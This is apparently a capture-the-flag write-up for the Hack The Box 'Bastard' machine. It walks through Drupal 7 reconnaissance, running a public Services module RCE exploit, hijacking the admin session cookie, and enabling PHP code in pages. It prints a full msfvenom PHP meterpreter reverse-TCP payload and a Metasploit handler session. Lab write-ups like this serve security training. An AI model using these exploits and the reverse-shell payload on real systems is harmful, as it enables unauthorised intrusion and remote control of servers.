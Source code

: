 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce) or you can copy it from my [Pastebin](https://pastebin.com/VF0UFu3g)
<br>Now after you copy the exploit from the blog then edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
<br>Now before you run the exploit make sure the main drupal login page is open in your browser or it will show you the error **Failed to login with fake password** or if you still see this error even after opening the login page in browser then revert the machine and try again.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># php exploit.php 
<br>Stored session information in session.json
<br>Stored user information in user.json
<br>Cache contains 7 entries
<br>File written: <font color="53E100">http://10.10.10.9/dixuSOspsOUU.php</font>
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat session.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;"session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"session_id": "NR8MTD7eFRPPmFJGnxGlgJGHIo00ltSWMRV_TO1Iz0k",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"token": "Kkq8taVZ9H5AOpE6kti6qyA2xkjk110_-wOFCKgvGPY"
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat user.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;"uid": "1",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"name": "admin",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"mail": "drupal@hackthebox.gr",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"theme": "",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"created": "1489920428",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"access": "1492102672",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"login": 1513922853,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"status": "1",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"timezone": "Europe\/Athens",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"language": "",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"picture": null,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"init": "drupal@hackthebox.gr",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"data": false,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"roles": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"2": "authenticated user",
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"3": "administrator"
<br>&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;"rdf_mapping": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"rdftype": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"sioc:UserAccount"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"name": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"predicates": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"foaf:name"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;]
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"homepage": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"predicates": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"foaf:page"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"type": "rel"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;"pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>
<p>If you get any error like **PHP Fatal error: Uncaught Error: Call to undefine function curl_init()** possibilities are you don't have php-curl installed in your machine so to solve this you just need to downlaod it and restart the apache server and then run the exploit again.
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># apt-get install php-curl
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># systemctl restart apache2</p>
<br>Now after the exploit completed sucessfully it will give use a link where the file has been written and created a new user in drupal and 2 new files (session.json) and (user.json) in your current directory and if you look inside the session.json file you will see (session_ID, name and token) and we will edit and use this to gain admin access on the web.
<br>Now we need to edit this file session.json
<br>The session file is in format:-
<br>-Session_name:<font color="BB69EC">abc</font>
<br>-Session_id:<font color="BB69EC">def</font>
<br>-Token:<font color="BB69EC">xyz</font>
<br>Now we need to edit this like this
<br>-<font color="BB69EC">abc=def;token=xyz</font>
<br>It will look something like this
<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat session.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">"SESSd873f26fc11f2b7e6e4aa0f6fce59913=NR8MTD7eFRPPmFJGnxGlgJGHIo00ltSWMRV_TO1Iz0k;token=Kkq8taVZ9H5AOpE6kti6qyA2xkjk110_-wOFCKgvGPY"</font>
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>This is the cookie which we will use to get admin access, Now before we proceed make sure to open 3 links :
* The main drupal login page :- <font color="BB69EC">http://10.10.10.9/</font>
* The admin pannel which will show 403 access denied for now :- <font color="BB69EC">http://10.10.10.9/admin</font>
* And the link which the php exploit gave us :- <font color="BB69EC">http://10.10.10.9/dixuSOspsOUU.php</font>
<br>Now capture the request of **/admin** page in burp and replace the cookie with our cookies.
![cookie-1](https://teckk2.github.io/assets/images/Bastard/4-Bastard.JPG)
![cookie-2](https://teckk2.github.io/assets/images/Bastard/5-Bastard.JPG)
<br>And forward the request and we will get the admin access
![Admin](https://teckk2.github.io/assets/images/Bastard/6-Bastard.JPG)
<br>Another simple way is to use cookie manager and get admin access easily.
<br>But for now we have only access to this page, and if you open another page it will still show you **403 error** because the cookie is set for this page only, and to set the cookie for all pages we need to set it manually.
<br>Press **F12**, then click on console and define the cookie:-
<br>_document.cookie = "SESSd873f26fc...........6kti6qyA2xkjk110_-wOFCKgvGPY"_
![cookie-3](https://teckk2.github.io/assets/images/Bastard/7-Bastard.JPG)
<br>The cookie has been set, now we can move around to other pages.
<br>First click on **Modules** in the main toolbar of the page adb find _**PHP filter**_ and check the box and save the configuration.
![php filter](https://teckk2.github.io/assets/images/Bastard/9-Bastard.JPG)
<br>Click on the **Add content** tab below the **Dashboard** on the upper left corner of the page and insided it click on **> Basic Pages**
![content](https://teckk2.github.io/assets/images/Bastard/8-Bastard.JPG)
<br>Now in there we can put our php reverse shell by create your own using msfvenom.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.*.* LPORT=4455 -e base64 -f raw
<br>No platform was selected, choosing Msf::Module::Platform::PHP from the payload
<br>No Arch selected, selecting Arch: php from the payload
<br>Skipping invalid encoder base64
<br>No encoder or badchars specified, outputting raw payload
<br>Payload size: 947 bytes
<br><font color="ffff00">/*<?php /**/ error_reporting(0); $ip = '10.10.*.*'; $port = 4455; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } elseif (($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } elseif (($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } else { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; eval($b); die();</font>
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>Now add ?> in the end and remove /* which is before <?php, Now copy the PHP code
<br>And after pasting the php reverse shell make sure to change the **Text format** to **PHP code** and save it.
![format](https://teckk2.github.io/assets/images/Bastard/10-Bastard.JPG)
<br>After saving the file click on **Find content** and there we can see our file.
![php file](https://teckk2.github.io/assets/images/Bastard/11-Bastard.JPG)
<br>Now open up the listner and after that click on the file to get the reverse shell.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/multi/handler
<br>msf exploit(<font color="red">handler<font color="red">) > set payload php/meterpreter/reverse_tcp
<br>payload => php/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler<font color="red">) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.14
<br>msf exploit(<font color="red">handler<font color="red">) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler<font color="red">) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (33986 bytes) to 10.10.10.9
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.9:49323) at 2017-12-21 16:13:10 -0500</p>

<p>meterpreter > getuid
<br>Server username: IUSR (0)
<br>meterpreter > sysinfo
<br>Computer    : BASTARD
<br>OS          : Windows NT BASTARD 6.1 build 7600 (Windows Server 2008 R2 Datacenter Edition) i586
<br>Meterpreter : php/windows
<br>meterpreter ></p>
</div>
</font>

